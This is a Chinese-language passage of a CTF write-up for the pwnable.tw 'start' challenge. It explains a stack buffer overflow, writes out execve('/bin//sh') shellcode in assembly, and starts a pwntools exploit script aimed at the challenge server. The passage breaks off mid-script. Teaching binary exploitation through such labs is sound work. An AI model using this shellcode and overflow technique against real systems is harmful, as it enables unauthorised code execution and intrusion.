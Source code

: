 在输入的过程中，用户输入的数据会从低地址开始依次覆盖栈中的内容，所以，如果用户输入长度超过20，就会把栈底的返回地址和 保存的 ESP 给覆盖了。

## GetShell

使用 `peda` 载入可执行程序后，`checksec` 分析应用启用的安全措施，如下：

![-w180](https://i.loli.net/2019/02/13/5c6306380262c.jpg)

显示 NX（Not Execute）已启用，然而 `pwntools` 里的 `checksec` 命令检查 NX 是 disable 掉的，事实上也确实是 disable 的。

![-w493](https://i.loli.net/2019/02/13/5c6306380cd2d.jpg)

既然没有任何安全措施，栈也是可执行的，我们可以直接把 shellcode 布置在栈上，然后构造参数通过 `int 80` 调用 `sys_execve` 执行 `/bin/sh`。

### 构造 shellcode

目前我们的思路已经清晰了，就是通过 `sys_execve` 执行 `/bin/sh`。依据 [Linux System Call Table 参考](https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls32.html)， `sys_execve` 仅需要一个参数：可执行文件路径，放到 ebx 中，所以，我们得把 `/bin/sh` 这个字符串放到栈中。`/bin/sh` 一共7个字符，为了凑够 8 个字节，我们把 `/bin/sh` 处理成 `/bin//sh`。

```asm
xor    eax,eax     // 清空 eax
push   eax         // 放个0到栈里，当作字符串结束
push   0x68732f2f  // "//sh" 入栈, 0x68732f2f 是 "//sh" 的 ASCII 16进制编码
push   0x6e69622f  // "/bin" 入栈。
mov    ebx,esp     // 把 "/bin//sh" 的地址赋值给 ebx，这是 sys_execve 的要求
xor    ecx,ecx     // 清空 ecx
xor    edx,edx     // 清空 ecx
mov    al,0xb      // 设置调用号 0xb(11)
int 0x80           // 调用 system call
```

### PWN
在前边我们已经构造好了 shellcode，下边就使用 `pwntools` 进行本地测试以及获取 flag。

我们需要覆盖程序的返回地址达到控制程序流程的目的，所以我们需要获取 `esp` 的地址，注意地址为 `0x8048087` 的这条指令，是输出部分的代码，恰好将 `esp` 的地址赋值给了 `ecx`，我们可以将返回地址覆盖为 `0x8048087` 从而得到 `esp` 地址。

因为我们把程序返回地址修改为了输入部分，所以可以继续输入，再次输入，将 shellcode 覆盖在返回地址之后，将返回地址覆盖为 shellcode 开始的位置即可。
代码如下：

```python
# -*- coding: UTF-8
# pwnable.tw callenge "start" pwn script
import sys
from pwn import *

SHELLCODE = '''
xor    eax,eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx,esp
xor    ecx,ecx
xor    edx,edx
mov    al,0xb
int    0x80
'''

NORMAL_INPUT_LEN = 0x14

if __name__ == "__main__":
    if len(sys.argv) > 1 and sys.argv[1] == 'pwn':
        proc = remote('chall.pwnable.tw', 10000)
    else:
        proc = process('./start')
```